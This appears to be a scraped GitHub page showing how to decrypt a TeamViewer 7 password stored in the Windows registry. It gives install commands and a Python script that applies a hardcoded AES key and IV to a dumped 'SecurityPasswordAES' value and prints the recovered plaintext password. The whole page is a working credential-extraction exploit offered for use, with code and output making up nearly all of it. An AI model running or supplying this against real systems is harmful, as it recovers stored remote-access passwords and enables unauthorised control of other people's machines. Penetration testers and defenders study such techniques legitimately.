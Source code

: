 #### TeamViewer 7

From dumped reg files:

"SecurityPasswordAES"=hex:2c,0f,ff,76,ca,03,d7,c2,1c,0d,3c,8b,55,ed,d8,de,37,\
  f8,97,20,ae,6e,d3,82,d0,ad,2e,70,f9,7e,ff,ea,0b,0c,1c,d9,01,cb,d1,ad,90,fc,\
  60,1b,9e,40,fc,9c,4b,af,65,ee,c5,19,62,eb,4e,da,cc,7c,30,a8,a6,6b,0c,bd,9f,\
  36,2a,c0,ca,d1,59,89,04,ae,cb,8b,96,10

Place above value into hex_str_cipher below:

```
pip3 install hexdump
```

```
pip3 install pycrypto
```

```python
import sys, hexdump, binascii
from Crypto.Cipher import AES

class AESCipher:
    def __init__(self, key):
        self.key = key

    def decrypt(self, iv, data):
        self.cipher = AES.new(self.key, AES.MODE_CBC, iv)
        return self.cipher.decrypt(data)

key = binascii.unhexlify("0602000000a400005253413100040000")
iv = binascii.unhexlify("0100010067244F436E6762F25EA8D704")

# Hex Cipher String
hex_str_cipher = "2C0FFF76CA03D7C21C0D3C8B55EDD8DE37F89720AE6ED382D0AD2E70F97EFFEA0B0C1CD901CBD1AD90FC601B9E40FC9C4BAF65EEC51962EB4EDACC7C30A8A66B0CBD9F362AC0CAD1598904AECB8B9610"

ciphertext = binascii.unhexlify(hex_str_cipher)

raw_un = AESCipher(key).decrypt(iv, ciphertext)

print(hexdump.hexdump(raw_un))

password = raw_un.decode('utf-16')
print(password)

```

iparalipomenidellabatracomiomachia
